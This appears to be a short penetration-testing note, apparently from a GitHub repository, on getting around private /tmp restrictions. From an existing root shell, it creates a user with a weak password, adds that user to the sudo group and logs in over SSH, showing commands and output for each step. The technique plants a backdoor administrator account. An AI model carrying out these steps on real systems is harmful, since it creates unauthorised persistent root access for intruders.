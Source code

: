 # Escaping Private tmp protection

If private tmp protection is active, it can restrict the content of tmp directory to other users.

To bypass this, we should create a new root users and login to SSH to get a proper shell.

1. Create you'r new user.
```bash
root@sinhack03:/tmp# adduser v0lk3n
adduser v0lk3n
Adding user `v0lk3n' ...
Adding new group `v0lk3n' (1001) ...
Adding new user `v0lk3n' (1001) with group `v0lk3n' ...
Creating home directory `/home/v0lk3n' ...
Copying files from `/etc/skel' ...
New password: pwned
BAD PASSWORD: The password is shorter than 8 characters
Retype new password: pwned

passwd: password updated successfully
```

2. Add the user to sudo group. (to give him root permissions)

```bash
root@sinhack03:/tmp# usermod -aG sudo v0lk3n
usermod -aG sudo v0lk3n
root@sinhack03:/tmp# 
```

3. Once our user created, let's ssh to it.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ ssh v0lk3n@192.168.x.x
v0lk3n@192.168.x.x's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-111-generic x86_64)
...
v0lk3n@web05:~$ whoami
v0lk3n
v0lk3n@web05:~$ groups
v0lk3n sudo
```

Now you should be able to access the whole content of tmp folder.
